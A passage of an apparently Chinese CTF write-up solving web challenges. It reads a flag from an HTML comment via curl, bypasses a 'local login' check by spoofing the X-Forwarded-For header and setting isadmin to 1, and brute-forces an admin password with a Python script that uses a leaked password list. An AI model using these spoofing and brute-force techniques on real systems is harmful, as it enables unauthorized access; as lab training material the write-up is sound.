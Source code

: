 我们看到了index.php这个文件

我们用curl看一下返回结果

```
qiqi@qiqi-Mac ~> curl http://39.107.92.230/web/web2/index.php
<html><head><meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Careful</title>
</head>
<body alink="#007000"  bgcolor="#000000" link="gold" text="#008000" vlink="#00c000">
<center>
<br><br>
<center>
<h1>Do you know what happend just now?!</h1>
<script>
window.location.href="index.html";
</script>
</center>
<br>
<br>
<br>
<!--flag:{Y0u_ar3_s0_Car3ful}-->
</html>
```

这样我们就得到了flag:{Y0u_ar3_s0_Car3ful}

### 本地登陆

题目要求本地登陆，我们很容易想到XFF头

所以抓包添加XFF头部

X-Forwarded-For: 127.0.0.1

得到新的提示：You are not admin.Get out!

于是我们还要将isadmin的值改为1

最终成功得到flag:{Why_ar3_y0u_s0_dia0}

### 密码泄露

查看源代码，发现password.txt文件，发现里面有很多密码，但我们不可能一个一个去试

直接上python

```python
import requests
url = "http://39.107.92.230/web/web5/password.txt"
r = requests.get(url)
res = r.text.split('\r\n')
for i in res:
  r = requests.post("http://39.107.92.230/web/web5/index.php", data={'username':'admin', 'password':i})
  if "False" not in r.text:
    print i
    break
```
